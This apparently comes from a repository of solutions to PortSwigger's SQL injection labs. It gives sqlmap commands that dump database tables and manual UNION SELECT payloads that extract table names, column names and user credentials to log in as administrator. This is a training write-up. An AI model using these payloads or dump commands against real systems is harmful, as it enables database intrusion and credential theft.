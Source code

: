 ## SQL injection attack, listing the database contents on non-Oracle databases
### Reference: [PortSwigger: SQL injection: Listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents)


### Quick Solution
In this case a full attack must be completed. For this reason I used a tool to automate it: ``sqlmap``. To retrieve the credentials of the ``administrator`` I used the the following commands (I used the Dockerized version of ``sqlmap``):
```
# Get Databases
docker run -it --rm secsi/sqlmap -u "<target_url>" --dbs
# List tables in database
docker run -it --rm secsi/sqlmap -u "<target_url>" -D public --tables
# Dump content of a DB table
docker run -it --rm secsi/sqlmap -u "<target_url>" -D public -T <users_table_name> --dump
```


### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the ``category`` parameter: 
```
'+UNION+SELECT+'abc','def'--.
```
3. Use the following payload to retrieve the list of tables in the database:
```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: 
```
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
```
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
```
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
```
8. Find the password for the ``administrator`` user, and use it to log in.

## SQL injection attack, listing the database contents on Oracle
### Reference: [PortSwigger: SQL injection: Listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
